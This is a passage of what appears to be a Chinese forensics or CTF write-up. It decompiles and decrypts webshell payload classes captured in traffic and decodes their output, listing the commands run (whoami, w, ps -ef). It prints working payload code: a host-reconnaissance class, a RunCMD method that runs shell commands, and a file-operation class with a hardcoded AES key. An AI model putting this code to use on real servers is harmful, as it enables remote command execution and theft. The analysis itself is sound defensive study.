            Set<Map.Entry<Object, Object>> entrySet = props.entrySet();
            for (Map.Entry<Object, Object> entry : entrySet) {
                basicInfo.append(entry.getKey() + " = " + entry.getValue() + "<br/>");
            }
            String currentPath = new File("").getAbsolutePath();
            String driveList = "";
            File[] roots = File.listRoots();
            for (File f : roots) {
                driveList = driveList + f.getPath() + ";";
            }
            String osInfo = System.getProperty("os.name") + System.getProperty("os.version") + System.getProperty("os.arch");
            Map<String, String> entity = new HashMap<>();
            entity.put("basicInfo", basicInfo.toString());
            entity.put("currentPath", currentPath);
            entity.put("driveList", driveList);
            entity.put("osInfo", osInfo);
            entity.put("arch", System.getProperty("os.arch"));
            entity.put("localIp", getInnerIp());
            result.put("status", "success");
            result.put("msg", buildJson(entity, true));
            try {
                Object so = this.Response.getClass().getMethod("getOutputStream", new Class[0]).invoke(this.Response, new Object[0]);
                Method write = so.getClass().getMethod("write", byte[].class);
                write.invoke(so, Encrypt(buildJson(result, true).getBytes("UTF-8")));
                so.getClass().getMethod("flush", new Class[0]).invoke(so, new Object[0]);
                so.getClass().getMethod("close", new Class[0]).invoke(so, new Object[0]);
                return true;
            } catch (Exception e) {
                return true;
            }
        } catch (Exception e2) {
            try {
                Object so2 = this.Response.getClass().getMethod("getOutputStream", new Class[0]).invoke(this.Response, new Object[0]);
                Method write2 = so2.getClass().getMethod("write", byte[].class);
                write2.invoke(so2, Encrypt(buildJson(result, true).getBytes("UTF-8")));
                so2.getClass().getMethod("flush", new Class[0]).invoke(so2, new Object[0]);
                so2.getClass().getMethod("close", new Class[0]).invoke(so2, new Object[0]);
                return true;
            } catch (Exception e3) {
                return true;
            }
        } catch (Throwable th) {
            try {
                Object so3 = this.Response.getClass().getMethod("getOutputStream", new Class[0]).invoke(this.Response, new Object[0]);
                Method write3 = so3.getClass().getMethod("write", byte[].class);
                write3.invoke(so3, Encrypt(buildJson(result, true).getBytes("UTF-8")));
                so3.getClass().getMethod("flush", new Class[0]).invoke(so3, new Object[0]);
                so3.getClass().getMethod("close", new Class[0]).invoke(so3, new Object[0]);
            } catch (Exception e4) {
            }
            throw th;
        }
    }

    private String getInnerIp() throws SocketException {
        String ips = "";
        try {
            Enumeration<NetworkInterface> netInterfaces = NetworkInterface.getNetworkInterfaces();
            while (netInterfaces.hasMoreElements()) {
                NetworkInterface netInterface = netInterfaces.nextElement();
                Enumeration<InetAddress> addresses = netInterface.getInetAddresses();
                while (addresses.hasMoreElements()) {
                    InetAddress ip = addresses.nextElement();
                    if (ip != null && (ip instanceof Inet4Address)) {
                        ips = ips + ip.getHostAddress() + " ";
                    }
                }
            }
        } catch (Exception e) {
        }
        return ips.replace("127.0.0.1", "").trim();
    }

    private String buildJson(Map<String, String> entity, boolean encode) throws Exception {
        StringBuilder sb = new StringBuilder();
        String version = System.getProperty("java.version");
        sb.append("{");
        for (String key : entity.keySet()) {
            sb.append("\"" + key + "\":\"");
            String value = entity.get(key).toString();
            if (encode) {
                if (version.compareTo("1.9") >= 0) {
                    getClass();
                    Class Base64 = Class.forName("java.util.Base64");
                    Object Encoder = Base64.getMethod("getEncoder", null).invoke(Base64, null);
                    value = (String) Encoder.getClass().getMethod("encodeToString", byte[].class).invoke(Encoder, value.getBytes("UTF-8"));
                } else {
                    getClass();
                    Object Encoder2 = Class.forName("sun.misc.BASE64Encoder").newInstance();
                    value = ((String) Encoder2.getClass().getMethod("encode", byte[].class).invoke(Encoder2, value.getBytes("UTF-8"))).replace("\n", "").replace("\r", "");
                }
            }
            sb.append(value);
            sb.append("\",");
        }
        sb.setLength(sb.length() - 1);
        sb.append("}");
        return sb.toString();
    }

    private String base64encode(byte[] data) throws Exception {
        String result;
        System.getProperty("java.version");
        try {
            getClass();
            Class Base64 = Class.forName("java.util.Base64");
            Object Encoder = Base64.getMethod("getEncoder", null).invoke(Base64, null);
            result = (String) Encoder.getClass().getMethod("encodeToString", byte[].class).invoke(Encoder, data);
        } catch (Throwable th) {
            getClass();
            Object Encoder2 = Class.forName("sun.misc.BASE64Encoder").newInstance();
            String result2 = (String) Encoder2.getClass().getMethod("encode", byte[].class).invoke(Encoder2, data);
            result = result2.replace("\n", "").replace("\r", "");
        }
        return result;
    }

    private void fillContext(Object obj) throws Exception {
        if (obj.getClass().getName().indexOf("PageContext") >= 0) {
            this.Request = obj.getClass().getMethod("getRequest", new Class[0]).invoke(obj, new Object[0]);
            this.Response = obj.getClass().getMethod("getResponse", new Class[0]).invoke(obj, new Object[0]);
            this.Session = obj.getClass().getMethod("getSession", new Class[0]).invoke(obj, new Object[0]);
        } else {
            Map<String, Object> objMap = (Map) obj;
            this.Session = objMap.get("session");
            this.Response = objMap.get("response");
            this.Request = objMap.get("request");
        }
        this.Response.getClass().getMethod("setCharacterEncoding", String.class).invoke(this.Response, "UTF-8");
    }

    private byte[] getMagic() throws Exception {
        String key = this.Session.getClass().getMethod("getAttribute", String.class).invoke(this.Session, "u").toString();
        int magicNum = Integer.parseInt(key.substring(0, 2), 16) % 16;
        Random random = new Random();
        byte[] buf = new byte[magicNum];
        for (int i = 0; i < buf.length; i++) {
            buf[i] = (byte) random.nextInt(256);
        }
        return buf;
    }
}
```


发现是读取系统信息，返回值：
```json
{"msg":"eyJvc0luZm8iOiJUR2x1ZFhnMkxqZ3VNQzA0T0MxblpXNWxjbWxqWVcxa05qUT0iLCJkcml2ZUxpc3QiOiJMenM9IiwibG9jYWxJcCI6Ik1UY3lMakU0TGpBdU1nPT0iLCJjdXJyZW50UGF0aCI6Ikx3PT0iLCJhcmNoIjoiWVcxa05qUT0iLCJiYXNpY0luZm8iOiJQR0p5THo0OFptOXVkQ0J6YVhwbFBUSWdZMjlzYjNJOWNtVmtQdWVPcitXaWcrV1BtT21IanpvOEwyWnZiblErUEdKeUx6NVFRVlJJUFM5MWMzSXZiRzlqWVd3dmMySnBiam92ZFhOeUwyeHZZMkZzTDJKcGJqb3ZkWE55TDNOaWFXNDZMM1Z6Y2k5aWFXNDZMM05pYVc0NkwySnBianhpY2k4K1NFOVRWRTVCVFVVOU1EazNNRFUyWVRnek9Ea3hQR0p5THo1S1FWWkJYMFJGUWtsQlRsOVdSVkpUU1U5T1BUaDFNVEF5TFdJeE5DNHhMVEYrWW5Cdk9Dc3hQR0p5THo1S1FWWkJYMGhQVFVVOUwzVnpjaTlzYVdJdmFuWnRMMnBoZG1FdE9DMXZjR1Z1YW1SckxXRnRaRFkwTDJweVpUeGljaTgrUTBGZlEwVlNWRWxHU1VOQlZFVlRYMHBCVmtGZlZrVlNVMGxQVGoweU1ERTBNRE15TkR4aWNpOCtTa0ZXUVY5V1JWSlRTVTlPUFRoMU1UQXlQR0p5THo1TVFVNUhQVU11VlZSR0xUZzhZbkl2UGtoUFRVVTlMM0p2YjNROFluSXZQanhpY2k4K1BHWnZiblFnYzJsNlpUMHlJR052Ykc5eVBYSmxaRDVLVWtYbnM3dm51NS9sc1o3bWdLYzZQQzltYjI1MFBqeGljaTgrYW1GMllTNXlkVzUwYVcxbExtNWhiV1VnUFNCUGNHVnVTa1JMSUZKMWJuUnBiV1VnUlc1MmFYSnZibTFsYm5ROFluSXZQbXBoZG1FdWNISnZkRzlqYjJ3dWFHRnVaR3hsY2k1d2EyZHpJRDBnYjNKbkxuTndjbWx1WjJaeVlXMWxkMjl5YXk1aWIyOTBMbXh2WVdSbGNqeGljaTgrYzNWdUxtSnZiM1F1YkdsaWNtRnllUzV3WVhSb0lEMGdMM1Z6Y2k5c2FXSXZhblp0TDJwaGRtRXRPQzF2Y0dWdWFtUnJMV0Z0WkRZMEwycHlaUzlzYVdJdllXMWtOalE4WW5JdlBtcGhkbUV1ZG0wdWRtVnljMmx2YmlBOUlESTFMakV3TWkxaU1UUThZbkl2UG1waGRtRXVkbTB1ZG1WdVpHOXlJRDBnVDNKaFkyeGxJRU52Y25CdmNtRjBhVzl1UEdKeUx6NXFZWFpoTG5abGJtUnZjaTUxY213Z1BTQm9kSFJ3T2k4dmFtRjJZUzV2Y21GamJHVXVZMjl0THp4aWNpOCtjR0YwYUM1elpYQmhjbUYwYjNJZ1BTQTZQR0p5THo1cVlYWmhMblp0TG01aGJXVWdQU0JQY0dWdVNrUkxJRFkwTFVKcGRDQlRaWEoyWlhJZ1ZrMDhZbkl2UG1acGJHVXVaVzVqYjJScGJtY3VjR3RuSUQwZ2MzVnVMbWx2UEdKeUx6NXpkVzR1YW1GMllTNXNZWFZ1WTJobGNpQTlJRk5WVGw5VFZFRk9SRUZTUkR4aWNpOCtjM1Z1TG05ekxuQmhkR05vTG14bGRtVnNJRDBnZFc1cmJtOTNianhpY2k4K1VFbEVJRDBnTVR4aWNpOCthbUYyWVM1MmJTNXpjR1ZqYVdacFkyRjBhVzl1TG01aGJXVWdQU0JLWVhaaElGWnBjblIxWVd3Z1RXRmphR2x1WlNCVGNHVmphV1pwWTJGMGFXOXVQR0p5THo1MWMyVnlMbVJwY2lBOUlDODhZbkl2UG1waGRtRXVjblZ1ZEdsdFpTNTJaWEp6YVc5dUlEMGdNUzQ0TGpCZk1UQXlMVGgxTVRBeUxXSXhOQzR4TFRGK1luQnZPQ3N4TFdJeE5EeGljaTgrYW1GMllTNWhkM1F1WjNKaGNHaHBZM05sYm5ZZ1BTQnpkVzR1WVhkMExsZ3hNVWR5WVhCb2FXTnpSVzUyYVhKdmJtMWxiblE4WW5JdlBtcGhkbUV1Wlc1a2IzSnpaV1F1WkdseWN5QTlJQzkxYzNJdmJHbGlMMnAyYlM5cVlYWmhMVGd0YjNCbGJtcGtheTFoYldRMk5DOXFjbVV2YkdsaUwyVnVaRzl5YzJWa1BHSnlMejV2Y3k1aGNtTm9JRDBnWVcxa05qUThZbkl2UG1waGRtRXVhVzh1ZEcxd1pHbHlJRDBnTDNSdGNEeGljaTgrYkdsdVpTNXpaWEJoY21GMGIzSWdQU0FLUEdKeUx6NXFZWFpoTG5adExuTndaV05wWm1sallYUnBiMjR1ZG1WdVpHOXlJRDBnVDNKaFkyeGxJRU52Y25CdmNtRjBhVzl1UEdKeUx6NXZjeTV1WVcxbElEMGdUR2x1ZFhnOFluSXZQbk4xYmk1cWJuVXVaVzVqYjJScGJtY2dQU0JWVkVZdE9EeGljaTgrYzNCeWFXNW5MbUpsWVc1cGJtWnZMbWxuYm05eVpTQTlJSFJ5ZFdVOFluSXZQbXBoZG1FdWJHbGljbUZ5ZVM1d1lYUm9JRDBnTDNWemNpOXFZWFpoTDNCaFkydGhaMlZ6TDJ4cFlpOWhiV1EyTkRvdmRYTnlMMnhwWWk5NE9EWmZOalF0YkdsdWRYZ3RaMjUxTDJwdWFUb3ZiR2xpTDNnNE5sODJOQzFzYVc1MWVDMW5iblU2TDNWemNpOXNhV0l2ZURnMlh6WTBMV3hwYm5WNExXZHVkVG92ZFhOeUwyeHBZaTlxYm1rNkwyeHBZam92ZFhOeUwyeHBZanhpY2k4K2FtRjJZUzV6Y0dWamFXWnBZMkYwYVc5dUxtNWhiV1VnUFNCS1lYWmhJRkJzWVhSbWIzSnRJRUZRU1NCVGNHVmphV1pwWTJGMGFXOXVQR0p5THo1cVlYWmhMbU5zWVhOekxuWmxjbk5wYjI0Z1BTQTFNaTR3UEdKeUx6NXpkVzR1YldGdVlXZGxiV1Z1ZEM1amIyMXdhV3hsY2lBOUlFaHZkRk53YjNRZ05qUXRRbWwwSUZScFpYSmxaQ0JEYjIxd2FXeGxjbk04WW5JdlBtOXpMblpsY25OcGIyNGdQU0EyTGpndU1DMDRPQzFuWlc1bGNtbGpQR0p5THo1MWMyVnlMbWh2YldVZ1BTQXZjbTl2ZER4aWNpOCtZMkYwWVd4cGJtRXVkWE5sVG1GdGFXNW5JRDBnWm1Gc2MyVThZbkl2UG5WelpYSXVkR2x0WlhwdmJtVWdQU0JGZEdNdlZWUkRQR0p5THo1cVlYWmhMbUYzZEM1d2NtbHVkR1Z5YW05aUlEMGdjM1Z1TG5CeWFXNTBMbEJUVUhKcGJuUmxja3B2WWp4aWNpOCtabWxzWlM1bGJtTnZaR2x1WnlBOUlGVlVSaTA0UEdKeUx6NXFZWFpoTG5Od1pXTnBabWxqWVhScGIyNHVkbVZ5YzJsdmJpQTlJREV1T0R4aWNpOCtZMkYwWVd4cGJtRXVhRzl0WlNBOUlDOTBiWEF2ZEc5dFkyRjBMakl6TnpFMk9EYzJOekV5T1RBNU9EQXpPVEF1T0RBNE1EeGljaTgrYW1GMllTNWpiR0Z6Y3k1d1lYUm9JRDBnTDNOb2FYSnZaR1Z0YnkweExqQXRVMDVCVUZOSVQxUXVhbUZ5UEdKeUx6NTFjMlZ5TG01aGJXVWdQU0J5YjI5MFBHSnlMejVxWVhaaExuWnRMbk53WldOcFptbGpZWFJwYjI0dWRtVnljMmx2YmlBOUlERXVPRHhpY2k4K2MzVnVMbXBoZG1FdVkyOXRiV0Z1WkNBOUlDOXphR2x5YjJSbGJXOHRNUzR3TFZOT1FWQlRTRTlVTG1waGNqeGljaTgrYW1GMllTNW9iMjFsSUQwZ0wzVnpjaTlzYVdJdmFuWnRMMnBoZG1FdE9DMXZjR1Z1YW1SckxXRnRaRFkwTDJweVpUeGljaTgrYzNWdUxtRnlZMmd1WkdGMFlTNXRiMlJsYkNBOUlEWTBQR0p5THo1MWMyVnlMbXhoYm1kMVlXZGxJRDBnWlc0OFluSXZQbXBoZG1FdWMzQmxZMmxtYVdOaGRHbHZiaTUyWlc1a2IzSWdQU0JQY21GamJHVWdRMjl5Y0c5eVlYUnBiMjQ4WW5JdlBtRjNkQzUwYjI5c2EybDBJRDBnYzNWdUxtRjNkQzVZTVRFdVdGUnZiMnhyYVhROFluSXZQbXBoZG1FdWRtMHVhVzVtYnlBOUlHMXBlR1ZrSUcxdlpHVThZbkl2UG1waGRtRXVkbVZ5YzJsdmJpQTlJREV1T0M0d1h6RXdNanhpY2k4K2FtRjJZUzVsZUhRdVpHbHljeUE5SUM5MWMzSXZiR2xpTDJwMmJTOXFZWFpoTFRndGIzQmxibXBrYXkxaGJXUTJOQzlxY21VdmJHbGlMMlY0ZERvdmRYTnlMMnBoZG1FdmNHRmphMkZuWlhNdmJHbGlMMlY0ZER4aWNpOCtjM1Z1TG1KdmIzUXVZMnhoYzNNdWNHRjBhQ0E5SUM5MWMzSXZiR2xpTDJwMmJTOXFZWFpoTFRndGIzQmxibXBrYXkxaGJXUTJOQzlxY21VdmJHbGlMM0psYzI5MWNtTmxjeTVxWVhJNkwzVnpjaTlzYVdJdmFuWnRMMnBoZG1FdE9DMXZjR1Z1YW1SckxXRnRaRFkwTDJweVpTOXNhV0l2Y25RdWFtRnlPaTkxYzNJdmJHbGlMMnAyYlM5cVlYWmhMVGd0YjNCbGJtcGtheTFoYldRMk5DOXFjbVV2YkdsaUwzTjFibkp6WVhOcFoyNHVhbUZ5T2k5MWMzSXZiR2xpTDJwMmJTOXFZWFpoTFRndGIzQmxibXBrYXkxaGJXUTJOQzlxY21VdmJHbGlMMnB6YzJVdWFtRnlPaTkxYzNJdmJHbGlMMnAyYlM5cVlYWmhMVGd0YjNCbGJtcGtheTFoYldRMk5DOXFjbVV2YkdsaUwycGpaUzVxWVhJNkwzVnpjaTlzYVdJdmFuWnRMMnBoZG1FdE9DMXZjR1Z1YW1SckxXRnRaRFkwTDJweVpTOXNhV0l2WTJoaGNuTmxkSE11YW1GeU9pOTFjM0l2YkdsaUwycDJiUzlxWVhaaExUZ3RiM0JsYm1wa2F5MWhiV1EyTkM5cWNtVXZiR2xpTDJwbWNpNXFZWEk2TDNWemNpOXNhV0l2YW5adEwycGhkbUV0T0MxdmNHVnVhbVJyTFdGdFpEWTBMMnB5WlM5amJHRnpjMlZ6UEdKeUx6NXFZWFpoTG1GM2RDNW9aV0ZrYkdWemN5QTlJSFJ5ZFdVOFluSXZQbXBoZG1FdWRtVnVaRzl5SUQwZ1QzSmhZMnhsSUVOdmNuQnZjbUYwYVc5dVBHSnlMejVqWVhSaGJHbHVZUzVpWVhObElEMGdMM1J0Y0M5MGIyMWpZWFF1TWpNM01UWTROelkzTVRJNU1EazRNRE01TUM0NE1EZ3dQR0p5THo1bWFXeGxMbk5sY0dGeVlYUnZjaUE5SUM4OFluSXZQbXBoZG1FdWRtVnVaRzl5TG5WeWJDNWlkV2NnUFNCb2RIUndPaTh2WW5WbmNtVndiM0owTG5OMWJpNWpiMjB2WW5WbmNtVndiM0owTHp4aWNpOCtjM1Z1TG1sdkxuVnVhV052WkdVdVpXNWpiMlJwYm1jZ1BTQlZibWxqYjJSbFRHbDBkR3hsUEdKeUx6NXpkVzR1WTNCMUxtVnVaR2xoYmlBOUlHeHBkSFJzWlR4aWNpOCtjM1Z1TG1Od2RTNXBjMkZzYVhOMElEMGdQR0p5THo0PSJ9","status":"c3VjY2Vzcw=="}
```
对`msg`Base64解密得到：
```json
{"osInfo":"TGludXg2LjguMC04OC1nZW5lcmljYW1kNjQ=","driveList":"Lzs=","localIp":"MTcyLjE4LjAuMg==","currentPath":"Lw==","arch":"YW1kNjQ=","basicInfo":"PGJyLz48Zm9udCBzaXplPTIgY29sb3I9cmVkPueOr+Wig+WPmOmHjzo8L2ZvbnQ+PGJyLz5QQVRIPS91c3IvbG9jYWwvc2JpbjovdXNyL2xvY2FsL2JpbjovdXNyL3NiaW46L3Vzci9iaW46L3NiaW46L2Jpbjxici8+SE9TVE5BTUU9MDk3MDU2YTgzODkxPGJyLz5KQVZBX0RFQklBTl9WRVJTSU9OPTh1MTAyLWIxNC4xLTF+YnBvOCsxPGJyLz5KQVZBX0hPTUU9L3Vzci9saWIvanZtL2phdmEtOC1vcGVuamRrLWFtZDY0L2pyZTxici8+Q0FfQ0VSVElGSUNBVEVTX0pBVkFfVkVSU0lPTj0yMDE0MDMyNDxici8+SkFWQV9WRVJTSU9OPTh1MTAyPGJyLz5MQU5HPUMuVVRGLTg8YnIvPkhPTUU9L3Jvb3Q8YnIvPjxici8+PGZvbnQgc2l6ZT0yIGNvbG9yPXJlZD5KUkXns7vnu5/lsZ7mgKc6PC9mb250Pjxici8+amF2YS5ydW50aW1lLm5hbWUgPSBPcGVuSkRLIFJ1bnRpbWUgRW52aXJvbm1lbnQ8YnIvPmphdmEucHJvdG9jb2wuaGFuZGxlci5wa2dzID0gb3JnLnNwcmluZ2ZyYW1ld29yay5ib290LmxvYWRlcjxici8+c3VuLmJvb3QubGlicmFyeS5wYXRoID0gL3Vzci9saWIvanZtL2phdmEtOC1vcGVuamRrLWFtZDY0L2pyZS9saWIvYW1kNjQ8YnIvPmphdmEudm0udmVyc2lvbiA9IDI1LjEwMi1iMTQ8YnIvPmphdmEudm0udmVuZG9yID0gT3JhY2xlIENvcnBvcmF0aW9uPGJyLz5qYXZhLnZlbmRvci51cmwgPSBodHRwOi8vamF2YS5vcmFjbGUuY29tLzxici8+cGF0aC5zZXBhcmF0b3IgPSA6PGJyLz5qYXZhLnZtLm5hbWUgPSBPcGVuSkRLIDY0LUJpdCBTZXJ2ZXIgVk08YnIvPmZpbGUuZW5jb2RpbmcucGtnID0gc3VuLmlvPGJyLz5zdW4uamF2YS5sYXVuY2hlciA9IFNVTl9TVEFOREFSRDxici8+c3VuLm9zLnBhdGNoLmxldmVsID0gdW5rbm93bjxici8+UElEID0gMTxici8+amF2YS52bS5zcGVjaWZpY2F0aW9uLm5hbWUgPSBKYXZhIFZpcnR1YWwgTWFjaGluZSBTcGVjaWZpY2F0aW9uPGJyLz51c2VyLmRpciA9IC88YnIvPmphdmEucnVudGltZS52ZXJzaW9uID0gMS44LjBfMTAyLTh1MTAyLWIxNC4xLTF+YnBvOCsxLWIxNDxici8+amF2YS5hd3QuZ3JhcGhpY3NlbnYgPSBzdW4uYXd0LlgxMUdyYXBoaWNzRW52aXJvbm1lbnQ8YnIvPmphdmEuZW5kb3JzZWQuZGlycyA9IC91c3IvbGliL2p2bS9qYXZhLTgtb3Blbmpkay1hbWQ2NC9qcmUvbGliL2VuZG9yc2VkPGJyLz5vcy5hcmNoID0gYW1kNjQ8YnIvPmphdmEuaW8udG1wZGlyID0gL3RtcDxici8+bGluZS5zZXBhcmF0b3IgPSAKPGJyLz5qYXZhLnZtLnNwZWNpZmljYXRpb24udmVuZG9yID0gT3JhY2xlIENvcnBvcmF0aW9uPGJyLz5vcy5uYW1lID0gTGludXg8YnIvPnN1bi5qbnUuZW5jb2RpbmcgPSBVVEYtODxici8+c3ByaW5nLmJlYW5pbmZvLmlnbm9yZSA9IHRydWU8YnIvPmphdmEubGlicmFyeS5wYXRoID0gL3Vzci9qYXZhL3BhY2thZ2VzL2xpYi9hbWQ2NDovdXNyL2xpYi94ODZfNjQtbGludXgtZ251L2puaTovbGliL3g4Nl82NC1saW51eC1nbnU6L3Vzci9saWIveDg2XzY0LWxpbnV4LWdudTovdXNyL2xpYi9qbmk6L2xpYjovdXNyL2xpYjxici8+amF2YS5zcGVjaWZpY2F0aW9uLm5hbWUgPSBKYXZhIFBsYXRmb3JtIEFQSSBTcGVjaWZpY2F0aW9uPGJyLz5qYXZhLmNsYXNzLnZlcnNpb24gPSA1Mi4wPGJyLz5zdW4ubWFuYWdlbWVudC5jb21waWxlciA9IEhvdFNwb3QgNjQtQml0IFRpZXJlZCBDb21waWxlcnM8YnIvPm9zLnZlcnNpb24gPSA2LjguMC04OC1nZW5lcmljPGJyLz51c2VyLmhvbWUgPSAvcm9vdDxici8+Y2F0YWxpbmEudXNlTmFtaW5nID0gZmFsc2U8YnIvPnVzZXIudGltZXpvbmUgPSBFdGMvVVRDPGJyLz5qYXZhLmF3dC5wcmludGVyam9iID0gc3VuLnByaW50LlBTUHJpbnRlckpvYjxici8+ZmlsZS5lbmNvZGluZyA9IFVURi04PGJyLz5qYXZhLnNwZWNpZmljYXRpb24udmVyc2lvbiA9IDEuODxici8+Y2F0YWxpbmEuaG9tZSA9IC90bXAvdG9tY2F0LjIzNzE2ODc2NzEyOTA5ODAzOTAuODA4MDxici8+amF2YS5jbGFzcy5wYXRoID0gL3NoaXJvZGVtby0xLjAtU05BUFNIT1QuamFyPGJyLz51c2VyLm5hbWUgPSByb290PGJyLz5qYXZhLnZtLnNwZWNpZmljYXRpb24udmVyc2lvbiA9IDEuODxici8+c3VuLmphdmEuY29tbWFuZCA9IC9zaGlyb2RlbW8tMS4wLVNOQVBTSE9ULmphcjxici8+amF2YS5ob21lID0gL3Vzci9saWIvanZtL2phdmEtOC1vcGVuamRrLWFtZDY0L2pyZTxici8+c3VuLmFyY2guZGF0YS5tb2RlbCA9IDY0PGJyLz51c2VyLmxhbmd1YWdlID0gZW48YnIvPmphdmEuc3BlY2lmaWNhdGlvbi52ZW5kb3IgPSBPcmFjbGUgQ29ycG9yYXRpb248YnIvPmF3dC50b29sa2l0ID0gc3VuLmF3dC5YMTEuWFRvb2xraXQ8YnIvPmphdmEudm0uaW5mbyA9IG1peGVkIG1vZGU8YnIvPmphdmEudmVyc2lvbiA9IDEuOC4wXzEwMjxici8+amF2YS5leHQuZGlycyA9IC91c3IvbGliL2p2bS9qYXZhLTgtb3Blbmpkay1hbWQ2NC9qcmUvbGliL2V4dDovdXNyL2phdmEvcGFja2FnZXMvbGliL2V4dDxici8+c3VuLmJvb3QuY2xhc3MucGF0aCA9IC91c3IvbGliL2p2bS9qYXZhLTgtb3Blbmpkay1hbWQ2NC9qcmUvbGliL3Jlc291cmNlcy5qYXI6L3Vzci9saWIvanZtL2phdmEtOC1vcGVuamRrLWFtZDY0L2pyZS9saWIvcnQuamFyOi91c3IvbGliL2p2bS9qYXZhLTgtb3Blbmpkay1hbWQ2NC9qcmUvbGliL3N1bnJzYXNpZ24uamFyOi91c3IvbGliL2p2bS9qYXZhLTgtb3Blbmpkay1hbWQ2NC9qcmUvbGliL2pzc2UuamFyOi91c3IvbGliL2p2bS9qYXZhLTgtb3Blbmpkay1hbWQ2NC9qcmUvbGliL2pjZS5qYXI6L3Vzci9saWIvanZtL2phdmEtOC1vcGVuamRrLWFtZDY0L2pyZS9saWIvY2hhcnNldHMuamFyOi91c3IvbGliL2p2bS9qYXZhLTgtb3Blbmpkay1hbWQ2NC9qcmUvbGliL2pmci5qYXI6L3Vzci9saWIvanZtL2phdmEtOC1vcGVuamRrLWFtZDY0L2pyZS9jbGFzc2VzPGJyLz5qYXZhLmF3dC5oZWFkbGVzcyA9IHRydWU8YnIvPmphdmEudmVuZG9yID0gT3JhY2xlIENvcnBvcmF0aW9uPGJyLz5jYXRhbGluYS5iYXNlID0gL3RtcC90b21jYXQuMjM3MTY4NzY3MTI5MDk4MDM5MC44MDgwPGJyLz5maWxlLnNlcGFyYXRvciA9IC88YnIvPmphdmEudmVuZG9yLnVybC5idWcgPSBodHRwOi8vYnVncmVwb3J0LnN1bi5jb20vYnVncmVwb3J0Lzxici8+c3VuLmlvLnVuaWNvZGUuZW5jb2RpbmcgPSBVbmljb2RlTGl0dGxlPGJyLz5zdW4uY3B1LmVuZGlhbiA9IGxpdHRsZTxici8+c3VuLmNwdS5pc2FsaXN0ID0gPGJyLz4="}
```
再分别Base64解密，可得到LinuxInfo为`Linux6.8.0-88-genericamd64`，DriveList为`/;`，LocalIP为`172.18.0.2`，等等。证明上述确实是读取系统信息。
接着继续解密并逆向，发现执行了一些系统命令：


```java
...
/* compiled from: Cmd.java */
/* loaded from: payload-favicondemo(4).ico.class */
public class Zsiywhq {
    public static String cmd;
    public static String path;
    public static String whatever;
    private static String status = "success";
    private Object Request;
    private Object Response;
    private Object Session;
	...
    public Zsiywhq() {
        cmd = "";
        cmd += "cd / ;whoami";
        path = "";
        path += "/";
    }
	...
    private String RunCMD(String cmd2) throws Exception {
        Process p;
        Charset osCharset = Charset.forName(System.getProperty("sun.jnu.encoding"));
        String result = "";
        if (cmd2 != null && cmd2.length() > 0) {
            if (System.getProperty("os.name").toLowerCase().indexOf("windows") >= 0) {
                p = Runtime.getRuntime().exec(new String[]{"cmd.exe", "/c", cmd2});
            } else {
                p = Runtime.getRuntime().exec(new String[]{"/bin/sh", "-c", cmd2});
            }
            BufferedReader br = new BufferedReader(new InputStreamReader(p.getInputStream(), osCharset));
            String line = br.readLine();
            while (true) {
                String disr = line;
                if (disr == null) {
                    break;
                }
                result = result + disr + "\n";
                line = br.readLine();
            }
            BufferedReader br2 = new BufferedReader(new InputStreamReader(p.getErrorStream(), osCharset));
            String line2 = br2.readLine();
            while (true) {
                String disr2 = line2;
                if (disr2 == null) {
                    break;
                }
                result = result + disr2 + "\n";
                line2 = br2.readLine();
            }
        }
        return result;
    }
	...
}
```

找下来发现总共执行了这些：
```shell
cd / ;whoami
root

cd / ;w
 05:58:16 up 9 days,  2:05,  0 users,  load average: 0.35, 0.63, 0.29
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT

cd / ;ps -ef
UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  1 03:43 ?        00:01:36 java -jar /shirodemo-1.0-SNAPSHOT.jar
root          95       1  0 05:58 ?        00:00:00 /bin/sh -c cd / ;ps -ef
root          96      95  0 05:58 ?        00:00:00 ps -ef
```
没什么用。接着发现接下来内容有了新的模式：


**代码部分 - 点击展开**

_内容很长，不想看可以折叠_

```java
package sun.suh.tgvtrk;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.nio.ByteBuffer;
import java.nio.channels.FileChannel;
import java.nio.charset.Charset;
import java.nio.file.LinkOption;
import java.nio.file.Path;
import java.security.MessageDigest;
import java.text.DateFormat;
import java.text.SimpleDateFormat;
import java.util.ArrayList;
import java.util.Date;
import java.util.HashMap;
import java.util.List;
import java.util.Map;
import java.util.Random;
import java.util.Set;
import java.util.zip.ZipEntry;
import java.util.zip.ZipOutputStream;
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;

/* compiled from: FileOperation.java */
/* loaded from: payload-favicondemo(10).ico.class */
public class Mcuygmskgn {
    public static String mode;
    public static String path;
    public static String newPath;
    public static String content;
    public static String charset;
    public static String hash;
    public static String blockIndex;
    public static String blockSize;
    public static String createTimeStamp;
    public static String modifyTimeStamp;
    public static String accessTimeStamp;
    private Object Request;
    private Object Response;
    private Object Session;
    private Charset osCharset;

    private byte[] Encrypt(byte[] bArr) throws Exception {
        SecretKeySpec secretKeySpec = new SecretKeySpec("1f2c8075acd3d118".getBytes("utf-8"), "AES");
        Cipher cipher = Cipher.getInstance("AES/ECB/PKCS5Padding");
        cipher.init(1, secretKeySpec);
        byte[] bArrDoFinal = cipher.doFinal(bArr);
        try {
            Class<?> cls = Class.forName("java.util.Base64");
            Object objInvoke = cls.getMethod("getEncoder", null).invoke(cls, null);
            bArrDoFinal = (byte[]) objInvoke.getClass().getMethod("encode", byte[].class).invoke(objInvoke, bArrDoFinal);
        } catch (Throwable th) {
            Object objNewInstance = Class.forName("sun.misc.BASE64Encoder").newInstance();
            bArrDoFinal = ((String) objNewInstance.getClass().getMethod("encode", byte[].class).invoke(objNewInstance, bArrDoFinal)).replace("\n", "").replace("\r", "").getBytes();
        }
        return bArrDoFinal;
    }

    public Mcuygmskgn() {
        mode = "";
        mode += "list";
        path = "";
        path += "/";
        this.osCharset = Charset.forName(System.getProperty("sun.jnu.encoding"));
    }

    public boolean equals(Object obj) throws IllegalAccessException, NoSuchMethodException, SecurityException, IllegalArgumentException, InvocationTargetException {
        Map<String, String> result = new HashMap();
        try {
            try {
                fillContext(obj);
                if (mode.equalsIgnoreCase("list")) {
                    result.put("msg", list());
                    result.put("status", "success");
                } else if (mode.equalsIgnoreCase("show")) {
                    result.put("msg", show());
                    result.put("status", "success");
                } else if (mode.equalsIgnoreCase("checkExist")) {
                    result.put("msg", checkExist(path));
                    result.put("status", "success");
